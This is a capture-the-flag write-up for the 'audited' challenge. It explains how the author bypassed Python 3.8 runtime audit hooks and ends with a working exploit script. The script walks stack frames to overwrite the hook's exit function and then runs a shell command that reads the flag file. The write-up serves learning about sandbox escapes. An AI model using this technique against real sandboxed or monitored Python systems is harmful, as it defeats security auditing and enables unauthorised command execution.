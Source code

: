 # audited - _pwn, 263pts_

For this challenge we had to bypass runtime audit hooks in the Python interpreter, which were a new addition in Python 3.8. In a nutshell, audit hooks allow scripts to add a hook which is called whenever any interesting event occurs. These events cover things like creating new code objects, opening files, and execveing. You can find a comprehensive list of all audit events in the [CPython documentation](https://docs.python.org/3/library/audit_events.html), and for more implementation details see the [PEP publication](https://www.python.org/dev/peps/pep-0578/).

The challenge registered an audit hook which would call `__exit` (their imported alias of `os._exit`) if it was triggered, which meant that we couldn't simply open the flag or spawn a shell, for example.

Initially I thought this might be a 1-day challenge, so I trawled through all of the audit-hook-related entries in the Python bugtracker, and all issues/PRs on GitHub, but I didn't spot any obvious bugs which would help us solve the challenge. So this was either a previously-unknown bug in the audit implementation, or the developers had forgotten to add audit hooks for some useful function (seemed unlikely as they were pretty diligent in adding them, based on the commit history), or we had to attack the registered audit function itself.

Eventually I decided that the latter option seemed like the most likely, and it became clear that if we could get a reference to the `__main__` module, then we could overwrite the `__exit` function reference to stop the audit function from actually exiting. 

I was able to achieve this by raising an exception and walking up the stack frames until I found the frame containing the reference to `__exit`. Once I had that I could just overwrite it with some no-op function and execute whatever I wanted to get the flag.
```python
classes = 'a'.__class__.__base__.__subclasses__()
sys = classes[133].__init__.__globals__['sys']
os = classes[94].__init__.__globals__['_os']

try:
    raise Exception()
except Exception as e:
    _, _, tb = sys.exc_info()
    nxt_frame = tb.tb_frame

    # Walk up stack frames until we find one which
    # has a reference to the audit function
    while nxt_frame:
        if 'audit' in nxt_frame.f_globals:
            break
        nxt_frame = nxt_frame.f_back

    # Neuter the __exit function
    nxt_frame.f_globals['__exit'] = print

    # Now we're free to call whatever we want
    os.system('cat /flag*')
```

